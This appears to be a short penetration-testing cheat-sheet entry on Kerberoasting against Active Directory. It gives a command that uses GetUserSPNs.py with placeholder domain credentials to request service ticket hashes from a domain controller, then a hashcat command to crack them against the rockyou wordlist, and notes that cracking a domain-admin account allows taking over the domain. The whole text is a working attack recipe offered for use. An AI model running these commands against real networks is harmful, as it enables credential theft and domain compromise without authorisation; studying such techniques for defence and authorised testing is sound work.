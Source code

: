 Enumerate SPN hashes:
```bash
sudo GetUserSPNs.py <AD-domain>/<user>:<password> -dc-ip <dc-ip> -request
```

Crack the hash with hashcat:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt
```

>[!Note]
>If the SPN-user-account is a domain-admin we would be able to take over the domain!